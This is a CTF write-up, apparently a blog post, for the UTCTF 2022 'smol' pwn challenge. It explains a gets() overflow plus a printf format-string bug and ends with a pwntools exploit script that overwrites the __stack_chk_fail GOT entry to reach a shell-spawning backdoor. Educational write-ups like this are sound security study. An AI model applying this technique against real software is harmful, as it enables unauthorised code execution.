 ```yaml
---
title:  "[pwn] smol [utctf 2022]"
date: 2022-03-14 10:12:50
tags:
    - ctf
    - writeup
    - pwn
categories:
    - CTF
---
```


# 0x0 Introduction

In this challenge, a binary `smol` is provided. 

# 0x1 Mitigation

```
    # Arch:     amd64-64-little
    # RELRO:    Partial RELRO
    # Stack:    Canary found
    # NX:       NX enabled
    # PIE:      No PIE (0x400000)
```

<!-- more -->

# 0x2 Identify the problem

here is a simplified version of what is main function doing. 
```
main(void)
{
    var char *s1 @ rbp-0x150
    var char *format @ rbp-0xe0
    var char *s @ rbp-0x70
    var int64_t canary @ rbp-0x8

    canary = *(in_FS_OFFSET + 0x28);
    sym.imp.puts("What kind of data do you have?");
    sym.imp.gets(&s1);
    iVar2 = sym.imp.strcmp(&s1, "big data");
    if (iVar2 == 0) {
        // set variable format to some certain format
    }
    else {
        // set format to some certain format
    }
    sym.imp.puts("Give me your data");
    sym.imp.gets(&s);
    sym.imp.printf(&format, &s);
    sym.imp.putchar(10);
    if (canary != *(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return 0;
}
```

Take a brief looking at the code, we can identify two trivial vulnerability here. One is `gets`, which allow us to write arbitrary number of bytes to the stack. Another is `printf`, printf allow us to read/write data at specific address.

Since `format` is locate under variable `s1`, we can overwrite `format` with any format we want using `gets(&s1)`. This allow us to do a arbitrary read/write with `printf`. 

My first idea is try to leak the data in the canary and then do a rop chain to get a shell. However, `printf` execute after last `gets` function. Even we get the canary, we can't overwrite canary because there is no stack overflow bug after that.

Lets take look at mitigation again, the mitigation shows that this program is partial RELRO. This allows us to modify the function address in the global offset table. So it is a good idea using `printf` to overwrite `__stack_chk_fail`'s address to a code address in global offset table. Then, we overwrite canary to trigger `__stack_chk_fail` and call the code we want.

Luckily, the binary kindly give us a backdoor at `get_flag()`. So, write address of `__stack_chk_fail` at GOT to `get_flag()` will give us a shell.

```
void sym.get_flag(void){
// some code
    sym.imp.execve("/bin/sh", &var_20h, 0);
// some code
    return;
}
```

# 0x3 Exploits

```
io = connect("pwn.utctf.live", 5004)

print("got __stack_chk_fail,",hex(exe.got["__stack_chk_fail"]))
payload1 = flat({
    0x0:exe.got["__stack_chk_fail"],
    0x150 - 0xe0: b'%%%dx%%6$hn\x00' % 0x1349
},filler=b"A")
io.sendlineafter(b"do you have?\n",payload1)
# trigger stack chk fail
io.sendlineafter(b"Give me your data\n",b"A"*0x70)
io.interactive()
```